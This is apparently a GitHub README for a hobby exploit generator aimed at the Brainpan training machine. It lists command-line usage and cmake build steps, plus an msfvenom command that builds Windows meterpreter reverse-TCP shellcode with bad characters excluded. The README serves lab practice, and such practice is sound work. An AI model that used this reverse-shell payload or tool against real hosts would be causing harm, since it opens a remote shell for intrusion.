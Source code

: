 # Cross Platform Brainpan Shell Generator

**Still need to add a python Shellcode encoder, so we can read it and parse it without problem
This has been done in the KnowYourMem challenge in defcon 2021.**

I made that for fun, don't ask why i made that now that you know why.

```
USAGE : BrainpanShellGen.exe <-t TARGET> <-p TARGET_PORT> <-o OUTPUT_FILENAME>
    -h OR -? Prints this help menu
    -t <TARGET_HOST> IP Address or Hostname (Local or from DNS) to exploit
    -p <TARGET_PORT> Port where the service run on the target. default:'9999'
    -s <SHELLCODE_PATH> Path to your generated shellcode

Generate Shellcode : msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURLISTENIP LPORT=YOURLISTENPORT -f c -b \x00\x0a\x0d\xff
Put that shell code as a one liner in a file and give that file as an argument

EXAMPLES : .\BrainpanShellGen.exe -t target.com -p 9999 -s shellcode.txt
```

You can compile the project with cmake using the following commands :
```bash
#Instructions are the same for linux and windows
cd cmake
cmake .
cmake --build . --config Release
cd Release
.\ShellGen.exe
```

